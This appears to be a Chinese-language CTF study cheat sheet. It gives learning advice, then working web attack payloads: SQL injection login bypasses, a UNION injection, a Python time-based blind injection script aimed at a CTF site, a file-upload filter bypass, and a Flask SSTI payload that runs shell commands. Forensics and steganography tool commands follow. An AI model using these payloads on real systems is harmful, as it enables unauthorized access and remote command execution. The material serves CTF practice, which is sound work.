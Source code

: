 # 学习基本思路

    * 第一阶段，拿到题目要能看懂
    * 第二阶段，分析出题目逻辑

    * 做了一个月题啥也不会也是正常的...

    * 学习曲线坑爹，怎么开始不重要，但是一定要坚持下来

    * 保持练习强度，量变引起质变，瓶颈期，不存在的
    * 新手过招，靠的是技巧,高手过招，靠的是技术

# WEB
.index.php.swp 文件可能隐藏源代码
16进制编码可以绕过注入

## sql绕过，万能密码
假设sql语句如下：
select * from user where username='用户名' and password='密码'  
---
### 数据类型
sql里面弱类型的比较，以下情况都会为true：
- 1='1'
- 1='1.0'
- 1='1后接字母(再后面有数字也可以)'
- 0='除了非0数字开头的字符串'
    uname=admin
    &passwd=admin'||'1'='1
### 双等号
username=p'='&password=p'='
### 特殊截断符号“%00
username=a'+0;%00&password=
## 回显注入
?name=admin' and 1=2 union select 1,2,group_concat(flag) from flag--+
## 延时注入
import requests

import string

s=requests.session()

url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

flag=''

guess=string.lowercase+string.uppercase+string.digits

for i in range(33):

for st in guess:

headers={"x-forwarded-for":"1'+"+"(select case when(substr((select flag from flag) from %d for 1)='%s') then sleep(5) else 1 end) and '1'='1" %(i,st)}

try:

res=s.get(url,headers=headers,timeout=4)

except requests.exceptions.ReadTimeout:

flag+=st

print "flag:",flag

break

print "result:"+flag

## 图片上传
upload success, but not php!
multipart/form-data变换一下大小写，再把第二个Content-Type改成图片类
## kindeditor4.1.7

泄漏路径问题，漏洞根源位于/php/file_manager_json.php。

#杂碎

培根密码,当铺密码解密，JS/VBS/ASP加密解密  
cap无线密码破解-aircrack-win  
cap包无线解密，airdecap-ng -e SSID -p PASSWORD
MP3Stego Decode.exe -X -P PASSWORD
rz sz命令
## string 命令提取字符串，tr去除换行
strings qweqwe.pcapng | grep '^[a-z0-9]\{14\}$' | tr -d '\n' > test.txt  

## 工具
cheat engine
## 隐写
outguess -r 图片名 文件名

## flask ssti

{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.func_globals.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("ls").read()') }} {% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %} 
